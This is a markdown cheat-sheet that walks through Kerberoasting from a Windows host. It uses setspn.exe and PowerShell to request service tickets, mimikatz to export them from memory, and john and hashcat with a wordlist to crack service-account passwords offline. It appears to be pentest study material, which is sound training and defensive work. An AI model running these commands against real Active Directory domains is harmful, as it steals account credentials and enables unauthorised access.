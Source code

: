 ## From Windows 

> - The [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
> - The `-AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
> - [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services
> - We'll then use the [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object
> - We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session.
### Semi Manual method

``` PowerShell
# Enumerating SPNs with setspn.exe
# We will focus on user accounts and ignore the computer accounts returned by the tool.
PS C:\> setspn.exe -Q */*
....
CN=sqldev,OU=Service Accounts,OU=Corp,DC=DOMAIN,DC=LOCAL
        MSSQLSvc/DEV-PRE-SQL.domain.local:1433
....[SNIP]....

# Request a TGS ticket for an account in the above output and load it into memory.
PS C:\> Add-Type -AssemblyName System.IdentityModel
PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.domain.local:1433"

# Request All Tickets Using setspn.exe instead of retrive them one by one and load them into memory
PS C:\> Add-Type -AssemblyName System.IdentityModel
PS C:\> setspn.exe -T DOMAIN.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() } 

# Extract the tickets that we load into the memory from above commands with mimikatz.exe
mimikatz # base64 /out:true
mimikatz # kerberos::list /export 
# The output will be the Base64 blop of the kirbi files
# If we do not specify the base64 /out:true command, Mimikatz will extract the tickets and write them to .kirbi files.
```

Cracking TGS on attacker machine:

``` Bash
# Do this step only if you got base64 output instead of kirbi files directly from mimikatz.
$ echo "<base64 blob>" |  tr -d \\n 
# Or place the base64 in a file and use: 
$ cat encoded_file | base64 -d > sqldev.kirbi

# Convert the kribi file to a john crackable format file
$ kirbi2john sqldev.kirbi > john_sqldev_tgs
# Crack the TGS with john
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5tgs john_sqldev_tgs

# Convert the john crackable format file to a hashcat crackable format file
# Or Modifiying john_sqldev_tgs for Hashcat
$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' john_sqldev_tgs > hashcat_sqldev_tgs

```